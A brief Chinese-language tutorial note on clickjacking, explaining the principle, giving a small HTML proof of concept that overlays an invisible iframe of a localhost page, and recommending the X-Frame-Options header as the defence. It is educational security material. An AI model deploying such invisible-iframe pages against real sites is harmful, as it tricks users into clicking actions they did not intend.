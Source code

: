 ## 原理
> 用户在登陆 A 网站的系统后，被攻击者诱惑打开第三方网站，而第三方网站通过 iframe 引入了 A 网站的页面内容，用户在第三方网站中点击某个按钮（被装饰的按钮），实际上是点击了 A 网站的按钮。
## 实现
```
<!DOCTYPE html>
<html lang="zh">
<head>
    <meta charset="UTF-8">
    <title>点击劫持</title>
</head>
<body style="background: url(bg.jpg) no-repeat;">
    <iframe style="opacity: 0" src="http://localhost:8080/article/articleList" width="740" height="460"></iframe>
</body>
</html>
```
## 防御
X-FRAME-OPTIONS 禁止内嵌

X-Frame-Options HTTP 响应头是用来给浏览器指示允许一个页面可否在 `<frame>` 或者 `<object>` 中展现的标记。(推荐使用)